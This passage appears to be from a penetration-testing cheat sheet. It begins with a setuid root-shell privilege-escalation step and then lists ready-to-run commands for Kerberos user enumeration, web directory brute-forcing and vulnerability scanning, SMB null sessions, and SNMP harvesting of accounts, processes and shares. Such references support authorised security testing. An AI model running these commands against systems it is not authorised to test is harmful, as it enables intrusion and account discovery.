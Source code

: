 ...upload it to the share and execute the below to launch `sid-shell` to spawn a root shell:
```bash
chown root:root sid-shell; chmod +s sid-shell; ./sid-shell
```

### Kerberos Enumeration
```bash
# users
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'
```

### HTTP Brute-Force & Vulnerability Scanning
```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

### RPC / NetBios / SMB
```bash
rpcinfo -p $TARGET
nbtscan $TARGET

#list shares
smbclient -L //$TARGET -U ""

# null session
rpcclient -U "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

### SNMP
```bash
# Windows User Accounts
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25

# Windows Running Programs
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2

# Windows Hostname
snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27

# Windows TCP Ports
snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3

# Software Name
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2

# brute-force community strings
onesixtyone -i snmp-ips.txt -c community.txt

snmp-check $TARGET
```
